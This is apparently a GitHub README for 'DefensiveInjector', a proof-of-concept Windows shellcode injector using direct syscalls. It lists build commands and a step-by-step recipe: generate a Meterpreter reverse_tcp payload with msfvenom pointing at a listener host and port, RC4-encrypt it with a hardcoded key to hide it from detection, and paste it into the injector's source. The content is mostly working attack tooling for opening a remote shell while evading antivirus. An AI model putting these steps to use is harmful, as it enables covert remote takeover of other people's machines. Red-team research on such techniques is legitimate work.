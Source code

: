 # Defensive Injector

The code for the shellcode injector from my blog post.

This code is a PoC and will probly only run of windows 10 x64 version 1909, this is because of the syscall numbers changing between versions. To fix, change the syscall number of line 16 in `syscalls.c` with the corresponding number for that windows version. They can be found [here](https://j00ru.vexillium.org/syscalls/nt/64/).

## Install & Build

```
git clone https://github.com/bats3c/DefensiveInjector
cd DefensiveInjector
make
```

## Using different shellcode

- ##### generate your shellcode either with msfvenom or something else
    `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.239 LPORT=4444 -f raw -o meter.bin`

- ##### Encrypt the shellcode
    Keeping in mind that if you change it here you will need to update the key on line 132 in `main.c`
    `cat meter.bin | openssl enc -rc4 -nosalt -k "HideMyShellzPlz?" > encmeter.bin`

- ##### Format the shellcode
    Run `xxd -i encmeter.bin` then replace everything between line 10-60 with the output